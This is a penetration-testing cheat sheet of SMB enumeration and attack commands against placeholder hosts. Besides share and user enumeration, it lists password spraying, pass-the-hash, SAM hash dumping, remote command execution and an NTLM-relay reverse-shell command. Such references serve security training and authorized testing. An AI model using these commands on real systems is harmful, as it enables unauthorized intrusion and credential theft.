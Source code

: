 # SMB Enumeration

    Enumerate Hostname – nmblookup -A [ip]  
    List Shares  
        smbmap -H [ip/hostname]  
        echo exit | smbclient -L \\\\[ip]  
        nmap --script smb-enum-shares -p 139,445 [ip]  
    Check Null Sessions  
        smbmap -H [ip/hostname]  
        rpcclient -U "" -N [ip]  
        smbclient \\\\[ip]\\[share name]  
    Check for Vulnerabilities – nmap --script smb-vuln* -p 139,445 [ip]  
    Overall Scan – enum4linux -a [ip]  
    Manual Inspection  
        smbver.sh [IP] (port) [Samba]  
        check pcap  


Command |	Description
:---    | :---
smbclient -N -L //10.10.10.1	| Null-session testing against the SMB service.
smbmap -H 10.10.10.1	| Network share enumeration using smbmap.
smbmap -H 10.10.10.1 -r notes |	Recursive network share enumeration using smbmap.
smbmap -H 10.10.10.1 --download "notes\note.txt"	| Download a specific file from the shared folder.
smbmap -H 10.10.10.1 --upload test.txt "notes\test.txt"	| Upload a specific file to the shared folder.
rpcclient -U'%' 10.10.10.1	| Null-session with the rpcclient.
./enum4linux-ng.py 10.10.10.1 -A -C	| Automated enumeratition of the SMB service using enum4linux-ng.
crackmapexec smb 10.10.10.1 -u /tmp/userlist.txt -p 'Company01!'	| Password spraying against different users from a list.
impacket-psexec administrator:'Password123!'@10.10.10.1	| Connect to the SMB service using the impacket-psexec.
crackmapexec smb 10.10.10.1 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec	| Execute a command over the SMB service using crackmapexec.
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123!' --loggedon-users	| Enumerating Logged-on users.
crackmapexec smb 10.10.10.1 -u administrator -p 'Password123!' --sam	| Extract hashes from the SAM database.
crackmapexec smb 10.10.10.1 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE	| Use the Pass-The-Hash technique to authenticate on the target host.
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.1| 	Dump the SAM database using impacket-ntlmrelayx.
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.1 -c 'powershell -e <base64 reverse shell>	| Execute a PowerShell based reverse shell using impacket-ntlmrelayx.



### SMB Enumeration: Hostname

`nmblookup -A 192.168.1.17`  
`nbtscan 192.168.1.17`  
`nmap --script nbstat.nse 192.168.1.17`  
`nbtstat -A 192.168.1.17`  
`ping -a 192.168.1.17`  
`nmap --script smb-os-discovery 192.168.1.17`  


### SMB Enumeration: Share and Null Session

`smbmap -H 192.168.1.40`  - without user  
`smbmap -H 192.168.1.17 -u username -p password` - with user  

`smbclient -L 192.168.1.40`  
`smbclient //192.168.1.40/guest`  
`nmap --script smb-enum-shares -p139,445 192.168.1.17`  
`net view \\192.168.1.17 /All`  
`auxiliary/scanner/smb/smb_enumshares`  
`crackmapexec smb 192.168.1.17 -u 'username' -p 'password' –shares`  
```bash
rpcclient -U "" -N 192.168.1.40  
netshareenum  
netshareenumall  
```
### SMB Enumeration: Vulnerability Scanning

`nmap --script smb-vuln* 192.168.1.16`  


### SMB Enumeration: Users

`auxiliary/scanner/smb/smb_lookupsid`  -  what local users exist in the system  

Impacket: Lookupsid  
Requirements:  
• Domain  
• Username  
• Password/Password Hash  
• Target IP Address   
`python3 lookupsid.py Domain/usernname:password(hash)@192.168.1.17`  

`enum4linux 192.168.1.40`  


